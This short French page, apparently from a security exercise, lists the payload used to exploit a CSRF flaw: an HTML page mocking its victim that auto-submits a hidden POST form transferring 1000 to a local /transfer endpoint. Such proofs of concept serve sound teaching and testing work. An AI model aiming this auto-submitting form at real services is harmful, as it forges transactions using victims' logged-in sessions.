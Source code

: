 # Commandes et Payloads Utilisés pour Exploiter la Faille CSRF

Ce formulaire envoie automatiquement une requête POST exploitant la session active d'un utilisateur connecté :

<!DOCTYPE html>
<html>
<head>
    <title>SCAMMED HAHA !!!!</title>
</head>
<body>
    <h1>PAYE LE IPHONE MEC</h1>
    <form action="http://localhost:8080/transfer" method="POST" id="transfer-form">
        <input type="hidden" name="amount" value="1000">
    </form>
    <script>document.getElementById('transfer-form').submit();</script>
</body>
</html>
